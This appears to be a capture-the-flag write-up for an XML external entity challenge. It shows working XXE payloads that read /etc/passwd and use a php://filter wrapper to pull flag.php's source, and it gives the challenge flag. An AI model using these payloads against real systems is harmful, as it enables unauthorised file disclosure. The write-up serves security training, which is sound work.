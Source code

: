 # xxe1

## What it is

A website with an input field.

The message is sent to the server in the form of an xml (base64 + URI encoded).

The decoded xml looks like this:
```xml
<?xml version="1.0"?>
<document>
	<message>abc</message>
</document>
```

In the source of the page we can see:
```html
<!-- // include_once('flag.php'); -->
```

## Solution

(see solve.js)

https://portswigger.net/web-security/xxe
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file

We can use some xml features to retrieve external entities from the server.

For example:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<document>
	<message>&xxe;</message>
</document>
```

```file://``` will not work for ```flag.php``` because it will be interpreted by php, we can use ```php://filter/convert.base64-encode/resource=``` instead (see ssti1).

The final payload looks like this:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.php"> ]>
<document>
	<message>&xxe;</message>
</document>
```

flag.php:
```php
<?php

$flag = "BFS{XX3_FtW_SRL5Y_F0UND_TH3SE_D4YS_1T_W4S_H4RD_T0_D3V}";
```

flag: ```BFS{XX3_FtW_SRL5Y_F0UND_TH3SE_D4YS_1T_W4S_H4RD_T0_D3V}```
